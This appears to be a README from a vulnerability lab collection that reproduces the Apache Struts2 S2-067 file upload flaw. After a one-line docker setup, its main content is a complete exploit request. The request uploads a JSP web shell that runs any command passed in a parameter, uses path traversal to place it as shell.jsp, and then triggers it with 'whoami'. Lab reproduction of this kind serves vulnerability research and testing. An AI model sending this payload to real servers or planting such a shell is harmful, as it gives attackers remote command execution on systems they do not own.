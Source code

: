 # Struts2 S2-067

[中文版本(Chinese version)](README.zh-cn.md)

## Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/struts-1.0-SNAPSHOT` and you will see a simple page.

## Exploit


```
POST /struts-1.0-SNAPSHOT/upload.action HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

<% if("test".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../shell.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--

```

`http://127.0.0.1:8080/struts-1.0-SNAPSHOT/shell.jsp?pwd=test&cmd=whoami`